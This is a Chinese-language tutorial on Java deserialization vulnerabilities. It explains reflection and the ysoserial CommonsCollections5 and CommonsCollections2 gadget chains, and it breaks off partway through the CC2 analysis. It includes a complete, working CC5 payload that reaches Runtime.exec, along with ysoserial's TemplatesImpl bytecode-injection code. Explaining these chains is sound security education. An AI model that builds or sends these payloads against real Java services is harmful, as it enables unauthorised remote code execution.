# Java反序列化技术分享

本次分享涉及的东西有以下几点：

1. Java序列化和反序列化基础
2. 为什么在反序列化的时候会产生漏洞？
3. Java反射
4. ysoserial CommonsCollections2、CommonsCollections5
5. Java ClassLoader 加载类的几种方法
6. WebLogic CVE-2020-2555 CVE-2020-2883 RCE
7. Shiro-550 rememberMe 硬编码导致的反序列化RCE
8. WebLogic + Shiro 反序列化一键注册filter内存shell

## Java序列化和反序列化基础

> Java 序列化是指把 Java 对象转换为字节序列的过程便于保存在内存、文件、数据库中，ObjectOutputStream类的 writeObject() 方法可以实现序列化，将Java对象转为字节序列。
>
> Java 反序列化是指把字节序列恢复为 Java 对象的过程，ObjectInputStream 类的 readObject() 方法用于反序列化。

举一个简单的例子，见代码`SerializeAndDeserialize` **ps:这里重点关注下在代码中的强制转换类型**

```java
package org.chabug.demo;

import org.chabug.entity.Dog;
import org.chabug.entity.Person;
import org.chabug.util.Serializables;

/*
这个例子是为了证明只要实现了Serializable接口的类都可以被序列化
并且Java内置的几大数据类型也可被序列化，因为他们都继承了Object类
 */

public class SerializeAndDeserialize {

    public static void main(String[] args) throws Exception {
        byte[] bytes;
        String s1 = "I'm a String Object....";
        bytes = Serializables.serializeToBytes(s1);
        Object o1 = Serializables.deserializeFromBytes(bytes);
        System.out.println(o1);

        String[] s2 = new String[]{"tom", "bob", "jack"};
        bytes = Serializables.serializeToBytes(s2);
        String[] o2 = (String[])Serializables.deserializeFromBytes(bytes);
        System.out.println(o2);

        int i = 123;
        bytes = Serializables.serializeToBytes(i);
        int o3 = (Integer) Serializables.deserializeFromBytes(bytes);
        System.out.println(o3);

        // 一只名叫woody的狗
        Dog dog = new Dog();
        dog.setName("woody");

        // tom
        Person tom = new Person();
        tom.setAge(14);
        tom.setName("tom");
        tom.setSex("男");
        tom.setDog(dog);

        bytes = Serializables.serializeToBytes(tom);
        Person o = (Person) Serializables.deserializeFromBytes(bytes);
        System.out.println(o);

    }
}
```

String、Integer、数组、Object对象等Java内置的数据类型均可实现序列化，我们自己写的Person、Dog类只要实现了Serializable接口即可实现序列化和反序列化。


## 为什么在反序列化的时候会产生漏洞？

来看一段代码，现在有一个恶意的实体类EvilClass

```java
package org.chabug.entity;

import java.io.ObjectInputStream;
import java.io.Serializable;

public class EvilClass implements Serializable {
    String name;

    public EvilClass() {
        System.out.println(this.getClass() + "的EvilClass()构造方法被调用!!!!!!");
    }

    public EvilClass(String name) {
        System.out.println(this.getClass() + "的EvilClass(String name)构造方法被调用!!!!!!");
        this.name = name;
    }

    public String getName() {
        System.out.println(this.getClass() + "的getName被调用!!!!!!");
        return name;
    }

    public void setName(String name) {
        System.out.println(this.getClass() + "的setName被调用!!!!!!");
        this.name = name;
    }

    @Override
    public String toString() {
        System.out.println(this.getClass() + "的toString()被调用!!!!!!");
        return "EvilClass{" +
                "name='" + getName() + '\'' +
                '}';
    }

    private void readObject(ObjectInputStream in) throws Exception {
        //执行默认的readObject()方法
        in.defaultReadObject();
        System.out.println(this.getClass() + "readObject()被调用!!!!!!");
        Runtime.getRuntime().exec(new String[]{"cmd", "/c", name});
    }
}
```

其readObject中存在执行命令的代码`Runtime.getRuntime().exec(new String[]{"cmd", "/c", name})`，name参数是要执行的命令。那么我们可以构造一个恶意的对象，将其name属性赋值为要执行的命令，当反序列化触发readObject时就会RCE。如下

```java
package org.chabug.demo;

import org.chabug.entity.EvilClass;
import org.chabug.util.Serializables;

public class EvilSerialize {
    public static void main(String[] args) throws Exception {
        EvilClass evilObj = new EvilClass();
        evilObj.setName("calc");
        byte[] bytes = Serializables.serializeToBytes(evilObj);
        EvilClass o = (EvilClass) Serializables.deserializeFromBytes(bytes);
        System.out.println(o);
    }
}
```



那么现在我们知道了反序列化是如何被RCE的，但是开发中也不可能直接这么写，所以这就涉及到了利用链的寻找。反序列化漏洞需要三个东西

1. 反序列化入口(source)
2. 目标方法(sink)
3. 利用链(gadget chain)

细心再看上图中的输出结果，不仅仅触发了readObject方法，还触发了toString()、无参构造、set、get方法，那么在实际寻找利用链的过程中就不仅仅需要关注readObject()的方法了。


然后到现在我们就需要了解**反射**这个东西了，上文中我们提到了**强制类型转换**的问题，在实际开发中，在readObject中会进行逻辑处理，当不知道传入对象的具体数据类型时会通过反射来判断调用，而反射就是我们通向RCE的重要手段。

## Java反射

什么是反射？"反射"中有一个"反"字，那么解释反射就得从"正射"开始，看代码。这是我的实体类

```java
package org.chabug.entity;

import java.io.IOException;

public class ReflectionClass {
    String name;

    public ReflectionClass(String name) {
        this.name = name;
    }

    public ReflectionClass() {
    }

    public String say() {
        return this.name;
    }

    private void evil(String cmd) {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd","/c",cmd});
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String toString() {
        return "ReflectionClass{" +
                "name='" + name + '\'' +
                '}';
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }
}
```

正常写法

```java
package org.chabug.demo;

import org.chabug.entity.ReflectionClass;

public class ReflectionDemo {
    public static void main(String[] args) {
        ReflectionClass demo = new ReflectionClass();
        demo.setName("hello");
        System.out.println(demo.say());
//        demo.evil("calc");    // 不能够调用private方法
    }
}
```

很简单就是通过new创建了一个ReflectionClass实例，然后通过实例去调用其所属方法，这就是"正射"。但是当你new的时候不知道类名怎么办？受private保护的方法怎么调用？反射的作用就体现出来了。看下面这一段代码

```java
package org.chabug.demo;

import org.chabug.entity.ReflectionClass;

import java.lang.reflect.Method;

public class ReflectionDemo {
    public static void main(String[] args) throws Exception {
        // new
        Class<?> aClass = Class.forName("org.chabug.entity.ReflectionClass");
        Object o = aClass.newInstance();

        // setName("jack")
        Method setName = aClass.getDeclaredMethod("setName",String.class);
        setName.invoke(o, "jack");

        // say()
        Method say = aClass.getDeclaredMethod("say",null);
        Object o1 = say.invoke(o, null);
        System.out.println(o1);

        // evil("calc")
        // 反射可以修改方法的修饰符来调用private方法
        Method evil = aClass.getDeclaredMethod("evil", String.class);
        evil.setAccessible(true);
        evil.invoke(o,"calc");
    }
}
```

不需要提前知道类名，用到`org.chabug.entity.ReflectionClass`类改一改通过参数传进来就行了，并且可以通过setAccessible来获取private保护的方法或字段。

接下来我们从漏洞入手，深入了解反射在反序列化中的作用，以及反序列化调用链的挖掘。

## ysoserial CommonsCollections2、CommonsCollections5

ysoserial 是一个生成Java反序列化exp的工具，其中继承了一些一直的exp，比如的CommonsCollections几条利用链。这次要分析的是CC2、CC5这两条链，之所以分析这两条，是为了在CC2中使用了定义字节码的操作，CC5中是为了对反射和链式调用加深理解。


先来看更方便理解的CC5链条。

### CommonsCollections5

漏洞出现在`org.apache.commons.collections.functors.InvokerTransformer#transform`

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```

对比反射章节的代码可知这是很明显的反射用法，用正射的代码来解释的话就是

```java
input.iMethodName(iArgs);
```

this.iMethodName、this.iParamTypes、this.iArgs均在构造方法中可控。由此可以调用input对象的任意方法，传递任意参数。

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    this.iMethodName = methodName;
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}
```

由此先来一个执行命令的代码

```java
package org.chabug.demo;

import org.apache.commons.collections.functors.InvokerTransformer;

public class CC5 {
    public static void main(String[] args) throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```

因为Runtime类是单例模式的原因，需要通过getRuntime()获取到Runtime运行时对象，传入transform()之后弹出计算器。



但是我们知道，在反序列化时只会自动执行readObject()，如果此时直接构造InvokerTransformer对象，仍需解决两个问题

1. 自动执行Runtime.getRuntime()
2. 自动执行invokerTransformer.transform()

先来解决第一个问题，在org.apache.commons.collections.functors.ChainedTransformer#transform中可以实现链式调用

```java
public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }
    return object;
}
```

this.iTransformers的定义是Transformer数组

```java
private final Transformer[] iTransformers;
```

Transformer是一个接口，InvokerTransformer也实现了这个接口。



根据Java隐式类型转换的原则，我们可以定义一个Transformer数组，里面放入多个InvokerTransformer来实现多次反射调用，拿到Runtime.getRuntime().exec()

```java
package org.chabug.demo;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class CC5 {
    public static void main(String[] args) throws Exception {
//        ((Runtime) Runtime.class.getMethod("getRuntime").invoke(null)).exec("calc");
        Transformer[] transformers = new Transformer[]{
                // 传入Runtime类
                new ConstantTransformer(Runtime.class),
                // 使用Runtime.class.getMethod()反射调用Runtime.getRuntime()
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                // invoke()调用Runtime.class.getMethod("getRuntime").invoke(null)
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                // 调用exec("calc")
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers);
        chain.transform(null);
    }
}
```

其中很巧妙的是通过ConstantTransformer类的构造方法传入了Runtime.class，这样就不需要我们自己传入Runtime了。


现在就需要解决第二个问题，如何自动触发transform()。都知道readObject()在反序列化时会执行，那么在那个类的readObject()直接或者间接地调用了transform()呢？


在org.apache.commons.collections.map.LazyMap#get中调用了transform()

```java
public Object get(Object key) {
    if (!super.map.containsKey(key)) {
        Object value = this.factory.transform(key);
        super.map.put(key, value);
        return value;
    } else {
        return super.map.get(key);
    }
}
```

看这个类的构造方法和factory字段

```java
protected final Transformer factory;

public static Map decorate(Map map, Transformer factory) {
    return new LazyMap(map, factory);
}
```

factory字段是final、protected修饰，但是他有一个public的方法decorate()来生成该类对象，那么就可以构造出如下

```java
HashMap hashMap = new HashMap();
Map map = LazyMap.decorate(hashMap, chain);
map.get("test");	//执行这个就会弹出计算器  map.get() > transform()
```

此时在寻找哪里调用了map的get()方法 org.apache.commons.collections.keyvalue.TiedMapEntry#getValue

```java
private final Map map;
private final Object key;

public TiedMapEntry(Map map, Object key) {
    this.map = map;
    this.key = key;
}
public Object getKey() {
    return this.key;
}
public Object getValue() {
    return this.map.get(this.key);
}
public String toString() {
    return this.getKey() + "=" + this.getValue();
}
```

getValue()刚好调用map.get()，this.key我们也可控。而toString()调用了this.getValue()。现在继续构造

```java
HashMap hashMap = new HashMap();
Map map = LazyMap.decorate(hashMap, chain);
// map.get("test");
TiedMapEntry key = new TiedMapEntry(map, "key");
key.toString();	// toString > getValue() > map.get()
```

那么现在的问题就是如何readObject自动触发toString()，这就简单了，在jdk内置类中有一个BadAttributeValueExpException异常类，其readObject()会执行toString()

```java
public BadAttributeValueExpException (Object val) {
    this.val = val == null ? null : val.toString();
}
public String toString()  {
    return "BadAttributeValueException: " + val;
}

private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ObjectInputStream.GetField gf = ois.readFields();
    Object valObj = gf.get("val", null);

    if (valObj == null) {
        val = null;
    } else if (valObj instanceof String) {
        val= valObj;
    } else if (System.getSecurityManager() == null
               || valObj instanceof Long
               || valObj instanceof Integer
               || valObj instanceof Float
               || valObj instanceof Double
               || valObj instanceof Byte
               || valObj instanceof Short
               || valObj instanceof Boolean) {
        val = valObj.toString();
    } else { // the serialized object is from a version without JDK-8019292 fix
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
    }
}
```

因为System.getSecurityManager()默认为null，所以触发val = valObj.toString()，进入到TiedMapEntry.toString()，最终的payload

```java
package org.chabug.demo;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.chabug.util.Serializables;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC5 {
    public static void main(String[] args) throws Exception {
//        ((Runtime) Runtime.class.getMethod("getRuntime").invoke(null)).exec("calc");
        Transformer[] transformers = new Transformer[]{
                // 传入Runtime类
                new ConstantTransformer(Runtime.class),
                // 使用Runtime.class.getMethod()反射调用Runtime.getRuntime()
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                // invoke()调用Runtime.class.getMethod("getRuntime").invoke(null)
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                // 调用exec("calc")
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers);
//        chain.transform(null);
        HashMap hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chain);
//        map.get("asd");
        TiedMapEntry key = new TiedMapEntry(map, "key");
//        key.toString();

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, key);


        byte[] bytes = Serializables.serializeToBytes(badAttributeValueExpException);
        Serializables.deserializeFromBytes(bytes);
    }
}
```



需要注意的是，在声明BadAttributeValueExpException对象时，并没有直接传入entry参数，而是用反射赋值。因为BadAttributeValueExpException的构造函数就会判断是否为空，如果不为空在序列化时就会执行toString()，那么反序列化时，因为传入的entry已经是字符串，所以就不会触发toString方法了。


小结：灵活运用反射加上链式调用，然后寻找gadget成功RCE。

```java
/*
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
	Requires:
		commons-collections
 */
```

### CommonsCollections2

在介绍CC2之前，首先需要了解下Java字节码。在Java中所有的Java代码都需要编译成class字节码文件来交给jvm去执行，字节码更像是一种汇编语言，可读性很差，但是仍然有很多优秀的库来操作、修改、编辑字节码来实现编程，比如asm、cglib和javassist。在ysoserial工具中用到的就是javassist库。先来看下ysoserial中cc2的payload是怎么写的。

```java
public Queue<Object> getObject(final String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);
    // mock method name until armed
    final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
    // stub data for replacement later
    queue.add(1);
    queue.add(1);

    // switch method called by comparator
    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = templates;
    queueArray[1] = 1;

    return queue;
}
```

先看第一行中Gadgets.createTemplatesImpl(command)

```java
public static Object createTemplatesImpl ( final String command ) throws Exception {
    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        return createTemplatesImpl(
            command,
            Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
            Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
            Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
    }

    return createTemplatesImpl(command, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
}
```

提到了org.apache.xalan.xsltc.trax.TemplatesImpl这个类，那就得先来看两行代码了

```java
package org.chabug.demo;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import ysoserial.payloads.util.Gadgets;

public class CC2 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl object = (TemplatesImpl) Gadgets.createTemplatesImpl("calc");
        object.newTransformer();
    }
}
```



为什么会弹出计算器？深究createTemplatesImpl()

```java
public static Object createTemplatesImpl ( final String command ) throws Exception {
    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        return createTemplatesImpl(
            command,
            Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
            Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
            Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
    }

    return createTemplatesImpl(command, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
}


public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
    throws Exception {
    final T templates = tplClass.newInstance();

    // use template gadget class
    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
    pool.insertClassPath(new ClassClassPath(abstTranslet));
    final CtClass clazz = pool.get(StubTransletPayload.class.getName());
    // run command in static initializer
    // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
    String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
        command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
        "\");";
    clazz.makeClassInitializer().insertAfter(cmd);
    // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
    clazz.setName("ysoserial.Pwner" + System.nanoTime());
    CtClass superC = pool.get(abstTranslet.getName());
    clazz.setSuperclass(superC);

    final byte[] classBytes = clazz.toBytecode();

    // inject class bytes into instance
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes, ClassFiles.classAsBytes(Foo.class)
    });

    // required to make TemplatesImpl happy
    Reflections.setFieldValue(templates, "_name", "Pwnr");
    Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
    return templates;
}
```

上面这段代码做了以下几件事：

1. 实例化了一个`org.apache.xalan.xsltc.trax.TemplatesImpl`对象templates，该对象`_bytecodes`可以存放字节码
2. 自己写了一个`StubTransletPayload`类 继承`AbstractTranslet`并实现`Serializable`接口
3. 获取`StubTransletPayload`字节码并使用javassist插入`templates`字节码(Runtime.exec命令执行)
4. 反射设置`templates`的`_bytecodes`为包含命令执行的字节码

实际上就是实现了一个`org.apache.xalan.xsltc.trax.TemplatesImpl`子类，然后在他的`_bytecodes`字段插入自己的恶意字节码，看下newTransformer()

```java
public synchronized Transformer newTransformer()
    throws TransformerConfigurationException
{
    TransformerImpl transformer;

    transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
                                      _indentNumber, _tfactory);

    if (_uriResolver != null) {
        transformer.setURIResolver(_uriResolver);
    }

    if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
        transformer.setSecureProcessing(true);
    }
    return transformer;
}
```

会执行getTransletInstance()，跟进

```java
private Translet getTransletInstance()
    throws TransformerConfigurationException {
    try {
        if (_name == null) return null;

        if (_class == null) defineTransletClasses();

        // The translet needs to keep a reference to all its auxiliary
        // class to prevent the GC from collecting them
        AbstractTranslet translet = (AbstractTranslet)
            _class[_transletIndex].getConstructor().newInstance();
        translet.postInitialization();
        translet.setTemplates(this);
        translet.setOverrideDefaultParser(_overrideDefaultParser);
        translet.setAllowedProtocols(_accessExternalStylesheet);
        if (_auxClasses != null) {
            translet.setAuxiliaryClasses(_auxClasses);
        }

        return translet;
    }
    catch (InstantiationException | IllegalAccessException |
           NoSuchMethodException | InvocationTargetException e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
        throw new TransformerConfigurationException(err.toString(), e);
    }
}
```
下面这行会根据字节码定义的类去new一个实例，而字节码定义的类中static块中写的是Runtime.exec，所以导致RCE
```java
AbstractTranslet translet = (AbstractTranslet)            _class[_transletIndex].getConstructor().newInstance();
```

那么寻找一个在readObject中调用template.newTransformer()的类即可。也就是payload中的PriorityQueue

> PriorityQueue 一个基于优先级的无界优先级队列。**优先级队列的元素按照其自然顺序进行排序**，或者根据构造队列时提供的 Comparator 进行排序，具体取决于所使用的构造方法。

查看其readObject()

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```

既然是一个优先级队列，那么必然存在排序。在heapify()中

```java
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]); // 进行排序
}
private void siftDown(int k, E x) {
    if (comparator != null) 
        siftDownUsingComparator(k, x); // 如果指定比较器就使用
    else
        siftDownComparable(k, x);  // 没指定就使用默认的自然比较器
}
private void siftDownUsingComparator(int k, E x) {
    int half = size >>> 1;
    while (k < half) {
        int child = (k << 1) + 1;
        Object c = queue[child];
        int right = child + 1;
        if (right < size &&
            comparator.compare((E) c, (E) queue[right]) > 0)
            c = queue[child = right];
        if (comparator.compare(x, (E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
